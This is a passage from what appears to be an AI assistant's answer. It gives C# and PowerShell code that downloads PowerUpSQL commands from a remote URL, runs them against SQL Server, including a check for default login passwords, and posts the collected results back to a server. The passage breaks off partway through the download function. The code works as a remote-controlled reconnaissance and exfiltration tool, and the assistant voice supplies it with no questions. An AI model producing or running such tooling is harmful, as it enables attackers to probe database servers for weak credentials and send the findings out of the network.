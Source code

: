 ```csharp
        results += "# SQL Server Login Default Password\n";
        results += "```\n" + RunPowerShellCommand("Get-SQLServerLoginDefaultPw") + "\n```\n";

        // Send the results via POST request
        SendPostRequest(url, results, "results.md");
    }
}
```

In this C# version:
- PowerShell commands are invoked using `ProcessStartInfo`.
- Data is sent via an HTTP POST request.
- The output is collected and formatted into Markdown and posted as a file.

Certainly! You can modify the script to download the PowerUpSQL commands from a file hosted on the server specified by the `--url` flag, and add the `-c` flag to specify the URL for the commands. The script will then loop through the commands, execute them, and post the results back to the server.

### Updated PowerShell Script

```powershell
# Function to send data via POST request
function Send-PostRequest {
    param (
        [string]$url,
        [string]$data,
        [string]$filename
    )
    $boundary = [System.Guid]::NewGuid().ToString()
    $bodyLines = @(
        "--$boundary",
        "Content-Disposition: form-data; name=`"file`"; filename=`"$filename`"",
        "Content-Type: text/markdown",
        "",
        $data,
        "--$boundary--"
    )
    $body = [string]::Join("`r`n", $bodyLines)
    
    $headers = @{
        "Content-Type" = "multipart/form-data; boundary=$boundary"
    }

    Invoke-RestMethod -Uri $url -Method Post -Body $body -Headers $headers
}

# Function to format output in markdown
function Format-Output {
    param (
        [string]$command,
        [string]$output,
        [string]$measures
    )
    return "### Command: `$command`" + "`n" + "```" + "`n" + $output + "`n" + "```" + "`n" + "### Measures:" + "`n" + $measures + "`n---`n"
}

# Function to download commands from the URL
function Get-CommandsFromURL {
    param (
        [string]$url
    )
    try {
        $webclient = New-Object System.Net.WebClient
```